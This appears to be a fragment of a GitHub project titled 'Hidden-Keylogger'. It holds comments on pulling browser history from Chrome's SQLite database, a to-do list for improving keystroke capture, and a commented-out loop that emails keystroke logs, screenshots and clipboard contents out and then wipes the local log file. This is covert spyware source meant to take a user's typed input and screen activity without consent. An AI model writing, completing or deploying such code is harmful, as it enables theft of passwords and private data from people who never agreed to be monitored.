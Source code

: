 # Hidden-Keylogger

# Call the function to gather browser history
# The gather_browser_history function is trying to get the browser history by using the tasklist command. However, the tasklist command does not provide browser history. It only lists the currently running tasks or services in your system.
# If you want to gather browser history, you would need to access the SQLite databases that browsers like Chrome and Firefox use to store history data. This is a complex task and involves understanding the database schema used by each browser. Also, it's important to note that accessing browser history without user consent can be a violation of privacy.
# Here's a simplified example of how you might access Chrome's history (this will only work if Chrome is not currently running, as the database will be locked otherwise). This code opens the history SQLite database that Chrome uses to store browsing history, and writes each URL to a file. Note that this is a simplified example and may not work in all cases, especially if the user has multiple Chrome profiles or if the database schema changes in a future Chrome update


#Scope of improvements:
# 1. Add a feature to send the all contents to email
# 2. Combination of keystrokes with ctrl not handled properly 
# 3. Numeric numbers on numpad can be capruted properly


#Email part
 # if currentTime > stoppingTime:
    #     # Send keylogger contents to email
    #     send_email(keys_information, file_path + extend + keys_information)
    #     # Clear contens of keylogger log file.
    #     with open("keylogger.txt", "w") as f:
    #         f.write(" ")
    #     # Take a screenshot and send to email
    #     screenshot()
    #     send_email(screenshot_information, file_path + extend + screenshot_information)
    #     # Gather clipboard contents and send to email
    #     copy_clipboard()
    #     send_email(clipboard_information, file_path + extend + clipboard_information)

    #     # Increase iteration by 1
    #     number_of_iterations += 1
    #     # Update current time
    #     currentTime = time.time()
    #     stoppingTime = time.time() + time_iteration
